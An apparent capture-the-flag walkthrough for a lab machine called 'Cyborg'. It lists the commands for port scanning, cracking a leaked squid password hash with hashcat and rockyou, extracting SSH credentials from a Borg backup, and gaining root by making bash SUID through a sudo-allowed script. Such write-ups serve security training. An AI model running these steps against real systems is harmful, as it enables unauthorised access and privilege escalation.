 # Cyborg

- Deploy the machine

	  no answer needed

- Scan the machine, how many ports are open?

	- `scilla port -target <TARGET_IP>`
	- `*`

- What service is running on port 22?

	- `ssh`

- What service is running on port 80?

	- `http`

- What is the user.txt flag?

	- Go to `<TARGET_IP>/etc`
	- And you find `http://<TARGET_IP>/etc/squid/passwd`
	- So you have found something like `username:password`.
	- `hash-identifier` and paste the password.
	- `echo password > hash`
	- `hashcat --force -m 1600 -a 0 hash /home/kali/rockyou.txt`
	- `ssh username@<TARGET_IP>` and enter the password.
	- It seems a password file...
	- `scilla dir -target <TARGET_IP>`
	- `/admin/` found!
	- Go to admin page and download the archive.tar file.
	- `tar -xvf archive.tar`
	- This is a [Borg](https://borgbackup.readthedocs.io/en/stable/) things.
	- Install borg.
	- `borg extract archive.tar::music_archive`
	- You found the ssh credentials.
	- `ssh ****@<TARGET_IP>` and enter the password.
	- `cat user.txt`
	- `flag{************************************}`

- What is the root.txt flag?

	- `sudo -l`
	- `cat /etc/mp3backups/backup.sh`
	- `sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"`
	- `bash -p`
	- `cat /root/root.txt`
	- `flag{***********************************}`
